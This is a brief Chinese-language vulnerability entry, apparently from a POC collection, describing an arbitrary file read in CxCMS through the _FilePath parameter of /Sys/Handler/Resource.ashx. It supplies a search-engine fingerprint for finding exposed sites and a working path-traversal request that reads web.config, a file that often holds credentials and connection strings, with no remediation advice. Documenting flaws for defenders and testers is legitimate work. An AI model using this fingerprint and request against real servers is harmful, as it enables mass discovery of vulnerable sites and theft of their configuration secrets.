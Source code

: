 # CxCMS Resource.ashx 任意文件读取漏洞

## 漏洞描述

CxCMS 存在任意文件读取，由于 /Sys/Handler/Resource.ashx 页面 _FilePath 参数过滤不严，导致可以读取系统敏感文件。

## 漏洞影响

```
CxCMS
```

## 网络测绘

```
"Powered by CxCms"
```

## 漏洞复现

关键字"Powered by CxCms"

![image-20220518144245685](./images/202205181442728.png)

验证POC

```
/Sys/Handler/Resource.ashx?_FilePath=../../web.config
```

![image-20220518144331101](./images/202205181443193.png)